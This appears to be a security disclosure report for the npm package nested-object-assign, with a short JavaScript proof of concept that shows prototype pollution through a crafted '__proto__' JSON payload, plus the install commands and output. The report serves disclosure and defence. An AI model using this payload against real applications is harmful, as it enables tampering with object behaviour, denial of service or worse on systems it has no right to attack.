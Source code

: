 # Description

`nested-object-assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const assign = require('nested-object-assign')

console.log('Before: ' + {}.polluted)
assign({}, JSON.parse('{"__proto__": {"polluted": true}}'))
console.log('After: ' + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i nested-object-assign # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

